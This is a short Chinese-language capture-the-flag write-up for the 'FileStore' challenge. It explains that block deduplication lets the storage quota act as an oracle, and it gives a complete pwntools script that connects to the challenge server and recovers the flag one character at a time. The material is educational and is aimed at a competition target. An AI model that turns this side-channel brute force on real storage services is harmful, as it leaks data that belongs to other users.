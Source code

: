 # FileStore

Tags: Brute Force, Misc

連上伺服器後發現一共有4種操作：

- Load
- Store
- Status
- Exit

從source code觀察store, load後發現，資料是以Block的方式被儲存的，並且為了節省空間，資料取出是以指針位置及長度來取出的。

所以我們可以用暴力破解的方式，一一嘗試，只要每次store資料後，檢查status，如果已使用的quota沒增加，代表我們所輸入的資料已經出現在資料庫中了。以此概念，將所有可用字元一一試過。並保留之前的紀錄，慢慢地我們就能推導出正確的Flag。

不過值得注意的是，因為儲存的方式是Block，所以長度超過一定值的時候，會被分開處理，為了確保我們的答案是連續的，我們可以從後往前推導。

```python
from pwn import *
from string import printable

process = remote('filestore.2021.ctfcompetition.com', 1337)

flag = ["}"]
origin_quota = 0.026

def getQuota(process):
    process.sendline('status')
    process.recvuntil('Quota: ')
    return float(process.recvuntil('kB')[:-2])

while True:
    for c in printable:
        print("Trying", c, 'and current quota is', origin_quota)
        process.sendline('store')
        process.sendline(c + ''.join(flag[::-1]))
        new_quota = getQuota(process)
        if new_quota == origin_quota:
            print("HIT", c)
            flag.append(c)
            print("The found flag is ", ''.join(flag[::-1]))
            break
        else:
            origin_quota = new_quota
```